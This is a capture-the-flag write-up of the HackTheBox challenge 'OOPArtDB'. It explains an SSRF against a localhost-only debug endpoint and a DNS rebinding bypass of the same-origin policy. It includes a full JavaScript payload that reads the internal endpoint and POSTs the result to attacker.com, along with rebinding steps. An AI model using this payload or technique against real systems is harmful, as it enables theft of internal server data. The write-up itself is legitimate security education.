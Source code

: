 ```yaml
---
title: HTB Insane Web OOPArtDB
description: Hardest challenge on HTB
date: 2024-02-20 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - insane
---
```


## Intro

This challenge allows you to submit a URL to be "scanned" by a bot on the challenge server.
The flag is shown in the webapp once you have successfully accessed the appropriate page with the credentials of the "Overseer" user.

## Foothold

One of the first things I noticed in the source code, was the `/debug` and `/register` endpoint.
The `/debug` endpoint caught my attention because it could reveal the secret `REFERRAL_TOKEN` value which is required to register via `/register` as the higher privilege `researcher` type of user.

```js
// challenge/index.js

app.get("/debug", util.isLocalhost, (req, res) => {
    let utils = require("util");
    res.end(
        Object.getOwnPropertyNames(global)
        .map(n => `${n}:\n${utils.inspect(global[n])}`)
        .join("\n\n")
    );
});
```

When accessed via a GET request from localhost, it responds with a detailed inspection of all properties of the global object in Node.js.
It's a way to inspect the global environment for debugging purposes.
In all honesty, at this point I couldn't see how I could leverage this to get the flag, but it seemed like a good step up since I was obtaining higher permissions.
This is probably something I need to work on for the future.
This is clearly SSRF, but we can't see the output of the response, so we also need to combine it with a way to exfiltrate the response.
So then my next thought was to submit a URL I control.
The URL will contain a webpage that contains a script that will make a request to the `/debug` endpoint, and then submit the response from that request back to my own web server.

I hosted a web page on an EC2 instance, and had the following script run on it:

```javascript
function fetchData() {
  return fetch('http://localhost/debug')
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      return response.text(); // Return the response as text
    })
    .catch(error => {
      console.error('Error fetching data:', error);
    });
}

// Function to send a POST request to `http://attacker.com/` with the fetched data after a delay of 3 seconds
function sendDataWithDelay(data) {
  setTimeout(() => {
    fetch('http://attacker.com/', {
      method: 'POST',
      headers: {
        'Content-Type': 'text/plain'
      },
      body: data
    })
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      console.log('Data sent successfully');
    })
    .catch(error => {
      console.error('Error sending data:', error);
    });
  }, 3000); // Delay of 3 seconds (3000 milliseconds)
}

// Usage: Fetch data and then send it after a delay of 3 seconds
fetchData()
  .then(data => {
    if (data) {
      sendDataWithDelay(data);
    }
  });
```

This somewhat worked, but I wasn't able to receive the request to exfil.

![First request received](img/2.png)

This request could have gotten blocked due to the CORS policy, and upon some research it seemed that `http.server` does not allow controlling the `CORS` header from the commandline.
However, it is possible with a little scripting and help from [stackoverflow](https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server)

Then we can verify it worked with burpsuite.
I blurred out the IP address of my EC2 instance since I don't want it getting touched :).

![Initial Request](img/3.png) ![Response with CORS policy](img/4.png) ![Request to `/debug`](img/5.png) ![Request to `/debug` received](img/6.png)

However, the POST request never went out.
This was again due to the CORS policy on my local `http.server` not havint the correct value, which then made me look into what the CORS and CSP policy was on the actual challenge.

```javascript
app.use((req, res, next) => {
    // no XSS or iframing :>
    res.setHeader("Content-Security-Policy", `
        default-src 'self';
        style-src 'self' https://fonts.googleapis.com;
        font-src https://fonts.gstatic.com;
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
    `.trim().replace(/\s+/g, " "));
    res.setHeader("X-Frame-Options", "DENY");
    next();
});
```

I couldn't find anything to indicate what the CORS policy was so I assumed it was set as the default Same Origin Policy.
My testing also implied this, so now is the time to think of how to bypass it.

### CORS

CORS is a policy defined by the web server that determines what requests it will accept.
If you intercept a response from a web server with a CORS policy you will see the header:

```
Access-Control-Allow-Origin: *
```

This header can have multiple values to specify multiple domains, or a wildcard as shown above, or a `null` value.
It makes sense too because a site that holds private information probably doesn't want to share information to applications outside of its domain.
Anyways, there are 2 parts to CORS.
There is a preflight request that happens from the client to the web server to ensure that the cross-site request is allowed, and then the actual request.
However these only happen when non-standard requests are made I think, or when you need to read the headers or data of the response (TODO: Verify this)

### SOP

Same Origin Policy is similar to CORS, but it is enforced by the browser.
This policy just makes it so that a client can only request resources from the same origin, that is the same: **protocal**, **domain**, and **port**.
For example: a request from https://foo.com to http://foo.com wouldn't work because there is a different protocol between the two addresses.

### Bypass

So the problem here is that our site, lets call it `http://attacker.com` is trying to make a request to `http://localhost/debug`, but because the domain, and the port are different then the request is not allowed by the bot's browser.

And our goal is for the bot to visit our page, our page sends a request to the local server address of the challenge site, and then our page posts that request to us at another endpoint.

![The problem becomes obvious](img/7.png)

Enter DNS Rebind.
While searching for bypasses on hacktricks, I came across this method.
The attack relies on changing the IP address for a domain quickly (rebinding it), very quickly, sort of like a race condition.
How does that help us here?
Well in the source code for the bot, we can see that it doensn't perform all its actions immediately, there are delays.
So the problem is that the client is making a request to `http://localhost/debug` from `http://attacker.com`, which gets blocked.
But what if during the delay between the bot visiting the attacker site, and then timing out, we rebind the address for `http://attacker.com` to instead point to `127.0.0.1`?

1. So the bot visits `http://attacker.com`, which will resolve to our real address (lets say it is `1.3.3.7`).
2. We rebind `http://attacker.com` to `127.0.0.1`, WHILE the bot still has the page loaded in their browser.
3. Then our script will run, and will send a request to `http://attacker.com/debug`, which is now actually `http://127.0.0.1/debug`, successfully grabbing the environment data that we need.
4. Then we make a post request to `http://1.3.3.7/exfil` containing the response to `http://attacker.com/debug` (actually `http://127.0.0.1/debug`), (and we set our CORS policy to allow requests from any domain), which successfully exfils the data to us.

A key element to making this attack work is having a low TTL on the DNS response, so the browser is forced to ask for the address twice.

I decided to use this [dns rebind site](https://lock.cmpxchg8b.com/rebinder.html) to facilitate the attack.
The first address will be that of my EC2 instance, and the second will be `127.0.0.1`.
Then we just need to run the attack a few times until we get the elements to line up properly.